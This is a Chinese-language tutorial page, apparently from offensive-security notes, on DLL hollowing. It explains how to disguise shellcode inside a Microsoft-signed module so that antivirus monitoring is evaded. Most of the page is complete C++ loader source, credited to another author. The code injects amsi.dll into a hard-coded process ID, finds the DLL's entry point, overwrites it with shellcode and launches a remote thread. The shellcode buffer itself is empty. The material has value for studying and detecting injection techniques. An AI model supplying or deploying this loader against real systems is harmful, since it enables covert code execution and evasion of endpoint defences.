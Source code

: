 # DLL Hollowing

## 简介

模块镂空\(dll hollowing\)也是一种shellcode注入技术，原理和思路与process hollowing类似，通过合法的模块信息来伪装恶意代码，虽然我们可以用远程dll注入来完整注入整个恶意dll，但此类注入往往比较容易检测，我们需要往受害者主机上传入一个恶意dll，这样杀毒软件可以通过监控入windows/temp/等目录实现对远程dll注入的拦截，而模块镂空就不会存在这样的风险，因为我们镂空的往往是一个带有微软签名的dll，为了防止进程出错，我们并不能直接镂空一个进程空间中已存在的dll，需要先对目标进程远程注入一个系统合法dll，然后再镂空它，这样我们就获得了一个和windows模块相关联的shellcode环境。

## 实现思路

1. 远程注入一个系统dll\(原理参考[CreateRemoteThrea](createremotethread.md)的dll注入\)
2. 获取该模块在目标进程中的虚拟地址
3. 定位模块的入口点
4. 使用shellcode复写入口点
5. 创建远程线程

## 代码实现

代码参考@mantvydasb

```text
#include <iostream>
#include <Windows.h>
#include <psapi.h>

char shellcode[] = "";

int main(int argc, char* argv[])
{
	
	
	TCHAR ModuleName[] = L"C:\\windows\\system32\\amsi.dll";
	HMODULE hModules[256] = {};
	SIZE_T hModulesSize = sizeof(hModules);
	DWORD hModulesSizeNeeded = 0;
	DWORD moduleNameSize = 0;
	SIZE_T hModulesCount = 0;
	CHAR rModuleName[128] = {};
	HMODULE rModule = NULL;

	// inject a benign DLL into remote process
	//hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 2924);

	LPVOID lprBuffer = VirtualAllocEx(hProcess, NULL, sizeof ModuleName, MEM_COMMIT, PAGE_READWRITE);
	WriteProcessMemory(hProcess, lprBuffer, (LPVOID)ModuleName, sizeof ModuleName, NULL);
	PTHREAD_START_ROUTINE threadRoutine = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	HANDLE dllThread = CreateRemoteThread(hProcess, NULL, 0, threadRoutine, lprBuffer, 0, NULL);
	WaitForSingleObject(dllThread, 1000);

	// find base address of the injected benign DLL in remote process
	EnumProcessModules(hProcess, hModules, hModulesSize, &hModulesSizeNeeded);
	hModulesCount = hModulesSizeNeeded / sizeof(HMODULE);
	for (size_t i = 0; i < hModulesCount; i++)
	{
		rModule = hModules[i];
		GetModuleBaseNameA(hProcess, rModule, rModuleName, sizeof(rModuleName));
		if (std::string(rModuleName).compare("amsi.dll") == 0)
		{
			break;
		}
	}

	// get DLL's AddressOfEntryPoint
	DWORD headerBufferSize = 0x1000;
	LPVOID peHeader = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, headerBufferSize);
	ReadProcessMemory(hProcess, rModule, peHeader, headerBufferSize, NULL);

	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)peHeader;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)peHeader + dosHeader->e_lfanew);
	LPVOID dllEntryPoint = (LPVOID)(ntHeader->OptionalHeader.AddressOfEntryPoint + (DWORD_PTR)rModule);

	// write shellcode to DLL's AddressofEntryPoint
	WriteProcessMemory(hProcess, dllEntryPoint, (LPCVOID)shellcode, sizeof(shellcode), NULL);

	// execute shellcode from inside the benign DLL
	CreateRemoteThread(hProcess, NULL, 0, (PTHREAD_START_ROUTINE)dllEntryPoint, NULL, 0, NULL);

	return 0;
}
```

## LINKS

{% embed url="https://www.forrest-orr.net/post/malicious-memory-artifacts-part-i-dll-hollowing" %}



{% embed url="https://ired.team/" %}



